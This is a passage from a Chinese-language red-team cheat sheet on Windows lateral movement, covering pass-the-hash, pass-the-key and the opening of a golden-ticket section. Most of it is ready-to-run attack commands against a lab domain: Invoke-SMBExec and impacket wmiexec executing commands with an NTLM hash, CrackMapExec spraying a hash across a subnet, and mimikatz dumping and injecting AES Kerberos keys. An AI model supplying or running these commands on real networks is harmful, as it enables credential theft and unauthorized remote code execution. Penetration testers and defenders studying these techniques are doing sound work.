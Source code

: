 ```
Invoke-SMBExec -Target 192.168.3.21 -Domain test.local -Username test1 -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
```
**如果只有SMB文件共享的权限，没有远程执行权限，可以使用该脚本**

- wmiexec.py 

```
https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py

https://github.com/maaaaz/impacket-examples-windows
```
```
wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.3.21 "whoami"
```
**普通用户可用**

## CrackMapExec
```
https://github.com/byt3bl33d3r/CrackMapExec.git
```
```
crackmapexec 192.168.3.0/24 -u administrator -H ccef208c6485269c20db2cad21734fe7
```

# Ptk
> **对于8.1/2012r2，安装补丁kb2871997的Win 7/2008r2/8/2012，可以使用AES keys代替NT hash**

- 获取用户的aes key

```
mimikatz "privilege::debug" "sekurlsa::ekeys"
```
![](https://pic3.superbed.cn/item/5d4ba498451253d178f12f17.jpg)

- 注入aes key

```
mimikatz "privilege::debug" "sekurlsa::pth /user:sqlsvr /domain:0DAY.ORG /aes256:bf2cab4e27a426c9ec9d21c919f119843415ee5d98587063d6e48d16633c5436" 
```
![](https://pic.superbed.cn/item/5d4ba588451253d178f15100.jpg)

# Ptt
## Golden ticket(黄金票据)
> 前提：
> 域名称
> 域SID
> krbtgt账户密码
> 伪造用户名
